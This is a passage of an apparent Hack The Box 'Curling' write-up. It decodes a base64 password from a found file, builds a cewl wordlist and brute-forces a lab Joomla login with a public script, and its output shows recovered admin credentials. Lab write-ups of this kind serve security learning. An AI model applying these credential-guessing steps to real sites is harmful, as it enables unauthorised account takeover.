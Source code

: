 I noticed an interesting file : secret.txt

![Secret.txt](/assets/imgs/curling/secret.PNG)

The file contains a base64 string : 

```
echo Q3VybGluZzIwMTgh | base64 -d
Curling2018!
```

This looks like a password ! I wanted to show a way to brute force Joomla, first I need a wordlist, I used cewl for that :

```
cewl -m 4 --with-numbers -w wordlistFromWebsite http://10.10.10.150 -d 4
```

Then I added the found password to the wordlist :

```
echo "Curling2018!" >> wordlistFromWebsite
```

## Exploit

------

Finally I used this script [Joombrute.py](https://github.com/04x/JoomBrute), for the brute force, I used the user "floris" because it was the author of many articles on the website.

```
python JoomBrute.py http://10.10.10.150 wordlistFromWebsite floris

Trying: leading
Trying: Once
Trying: able
Trying: emailed
Trying: file
[...]
Trying: received
Trying: Your
Trying: Curling2018!
	[+] 10.10.10.150 Joomla [Hacked!!]
		Username: admin
		Password: Curling2018!
```

Nice the script is working and the password I found too. Now I can connect :

